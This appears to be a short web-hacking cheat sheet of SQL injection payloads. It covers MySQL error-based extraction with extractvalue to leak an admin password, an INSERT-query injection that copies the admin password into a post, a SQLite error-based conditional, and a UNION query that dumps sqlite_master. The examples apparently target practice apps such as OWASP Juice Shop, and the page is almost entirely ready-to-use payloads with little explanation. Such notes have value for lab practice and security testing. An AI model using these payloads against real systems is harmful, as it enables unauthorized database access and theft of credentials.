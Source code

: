 ```yaml
---
title: SQL Injection
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```



## MySQL Error based sql injection

~~~ sql
admin' AND extractvalue(null, ( SELECT upw from user where uid='admin' ) );

# output : (1105, "XPATH syntax error: 'PasSwOrD123...'")


admin' AND extractvalue(null, concat(0x23, ( SELECT upw from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 1, 20) from user where uid='admin' ) ) );
admin' AND extractvalue(null, concat(0x23, ( SELECT substring(upw, 21, 100) from user where uid='admin' ) ) );
~~~

<br>

## MySQL Insert query injection

~~~ sql
insert into tmitter_board(idx, id, msg, etc) values (0, 'guest', 'hello', 0); -- example

asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)# -- payload

insert into tmitter_board(idx, id, msg, etc) values (0, 'asdf1234', null), (0, 'admin', (select ps from tmitter_user where id='admin'), 0)#', 'hello', 0); -- result


~~~

<br>

## SQLite Error based injection

~~~ sql
AND CASE WHEN (SELECT 1 FROM Users WHERE email='jim@juice-sh.op') THEN 1 ELSE load_extension(1) END;
~~~

<br>

## SQLite Extract table name, sql

~~~ sql
UNION SELECT name,sql,3,4,5,6,7,8,9 FROM sqlite_master WHERE type='table';
~~~





